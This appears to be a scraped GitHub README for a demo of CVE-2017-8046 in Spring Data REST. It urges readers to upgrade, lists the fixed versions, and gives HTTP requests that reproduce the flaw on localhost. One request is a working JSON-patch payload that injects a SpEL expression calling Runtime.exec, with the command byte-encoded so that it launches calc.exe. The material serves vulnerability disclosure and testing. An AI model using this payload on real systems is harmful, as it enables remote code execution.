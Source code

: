# CVE-2017-8046-DEMO

SPRING DATA REST CVE-2017-8046 DEMO

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Soontao](https://github.com/Soontao) |
| Url      | [https://github.com/Soontao/CVE-2017-8046-DEMO](https://github.com/Soontao/CVE-2017-8046-DEMO)                                               |
| Stars    | 1                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve

</details>

## Readme

# spring data rest CVE-2017-8046 demo test

please UPGRADE spring data rest NOW.

## steps

* 启动本应用

* 创建test instance

```http

POST /entityPersons/ HTTP/1.1
Host: localhost:8080
Content-Type: application/json
Cache-Control: no-cache

{
    "firstName":"f2"
}

```

* 利用spel注入, 会启动C:\Windows\system32\calc.exe

```http
PATCH /entityPersons/1 HTTP/1.1
Host: localhost:8080
Content-Type: application/json-patch+json
Cache-Control: no-cache

[
    {
        "op":"test", 
        "path":"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[] {67, 58, 92, 87, 105, 110, 100, 111, 119, 115, 92, 115, 121, 115, 116, 101, 109, 51, 50, 92, 99, 97, 108, 99, 46, 101, 120, 101} ))", 
        "value":""	
    }
]
```

## upgrade to

* Spring Data REST 2.5.12, 2.6.7, 3.0 RC3
* Spring Boot 2.0.0.M4
* Spring Data release train Kay-RC3

spring boot 1.5.7.RELEASE uses `spring data rest 2.6.7`, but 1.4.x is not upgrade spring data rest version.



## Get the content

```
git clone https://github.com/Soontao/CVE-2017-8046-DEMO
cd CVE-2017-8046-DEMO
```

{% embed url="https://github.com/Soontao/CVE-2017-8046-DEMO" %}

<figure><img src="https://avatars.githubusercontent.com/u/10473459?v=4" alt=""><figcaption><p>Soontao</p></figcaption></figure>
